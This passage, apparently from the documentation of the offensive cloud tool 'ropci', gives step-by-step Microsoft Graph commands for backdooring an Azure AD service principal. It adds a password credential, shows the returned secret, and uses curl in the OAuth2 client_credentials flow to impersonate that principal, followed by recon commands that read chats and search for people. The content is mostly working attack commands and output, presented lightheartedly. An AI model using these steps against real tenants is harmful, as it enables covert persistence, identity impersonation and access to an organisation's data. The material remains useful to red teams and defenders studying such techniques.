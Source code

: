 ## Backdooring a Service Principal (adding additional password)

```
$ ./ropci call -c /servicePrincipals/48359af7-af3a-42d4-abe2-8425a14689c9/addPassword \ 
--verb POST  -b '{"passwordCredential": { "displayName": "ropci says this is fine"}} | jq

{
  "@odata.context": "https://graph.microsoft.com/beta/$metadata#servicePrincipals('48359af7-af3a-42d4-abe2-8425a14689c9')/addPassword",
  "@odata.type": "#microsoft.graph.servicePrincipal",
  "customKeyIdentifier": null,
  "endDateTime": "2024-09-05T19:48:11.1638864Z",
  "keyId": "c47e91ff-986c-4f8f-9cc0-d41bdd038d49",
  "startDateTime": "2022-09-05T19:48:11.1638864Z",
  "secretText": "Yhj8Q~H1np.....4iEGuf0djD",
  "hint": "Yhj",
  "displayName": "ropci says this is fine"
}
```

Take note of the response, and the `secretText`. This is what can be used to impersonate the service principal.

With that `secretText`, which is the `client_secret` you can get an access token via the OAuth2 `client_credential` flow:

```
curl -d 'grant_type=client_credentials&client_id=2581d8b8-2e9c-4374-a418-06f9cfed87ff&client_secret=Yhj8Q~H1np.....4iEGuf0djD&scope=https://graph.microsoft.com/.default' https://login.microsoftonline.com/wuzzi.onmicrosoft.com/oauth2/v2.0/token
```

Fun times!

## More useful recon commands

### Chats

```
./ropci call -c /me/chats
```

### Searching for other items (e.g person)

```
./ropci search -t person -q "ropci" --format json  | jq
```

## Others

The `call` command allows to invoke the many other APIs that are exposed. Here are a couple of interesting examples:
